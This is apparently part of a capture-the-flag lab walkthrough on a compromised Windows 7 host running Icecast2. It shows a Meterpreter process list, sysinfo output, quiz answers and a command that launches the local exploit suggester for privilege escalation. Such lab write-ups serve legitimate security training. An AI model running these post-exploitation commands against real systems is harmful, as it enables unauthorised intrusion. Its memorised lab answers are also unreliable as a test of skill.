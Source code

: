 ```
 4     0     System
 144   2676  WinSAT.exe            x64   1
 416   4     smss.exe
 500   692   svchost.exe
 544   536   csrss.exe
 588   692   svchost.exe
 592   536   wininit.exe
 604   584   csrss.exe
 652   584   winlogon.exe
 692   592   services.exe
 700   592   lsass.exe
 708   592   lsm.exe
 816   692   svchost.exe
 884   692   svchost.exe
 932   692   svchost.exe
 1008  816   WmiPrvSE.exe
 1016  692   svchost.exe
 1020  692   vds.exe
 1052  692   svchost.exe
 1188  692   svchost.exe
 1292  692   sppsvc.exe
 1300  500   dwm.exe               x64   1        Dark-PC\Dark  C:\Windows\System32\dwm.exe
 1316  1288  explorer.exe          x64   1        Dark-PC\Dark  C:\Windows\explorer.exe
 1368  692   spoolsv.exe
 1396  692   svchost.exe
 1452  692   taskhost.exe          x64   1        Dark-PC\Dark  C:\Windows\System32\taskhost.exe
 1564  692   amazon-ssm-agent.exe
 1640  692   LiteAgent.exe
 1680  692   svchost.exe
 1820  692   Ec2Config.exe
 2036  500   Defrag.exe
 2060  692   svchost.exe
 2280  1316  Icecast2.exe          x86   1        Dark-PC\Dark  C:\Program Files (x86)\Icecast2 Win32\Icecast2.exe
 2472  544   conhost.exe
 2480  692   TrustedInstaller.exe
 2576  692   SearchIndexer.exe
 2640  604   conhost.exe           x64   1
 2676  692   taskhost.exe          x64   1
 2716  816   rundll32.exe          x64   1        Dark-PC\Dark  C:\Windows\System32\rundll32.exe
 2744  2716  dinotify.exe          x64   1        Dark-PC\Dark  C:\Windows\System32\dinotify.exe
```
**Answer**: `Dark`
### What build of Windows is the system?
```
meterpreter > sysinfo 
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
**Answer**: `7601`
### What is the architecture of the process we're running?
**Answer**: `x64`
###  What is the full path for the first returned exploit from the local exploit suggester?
```
meterpreter > run post/multi/recon/local_exploit_suggester
```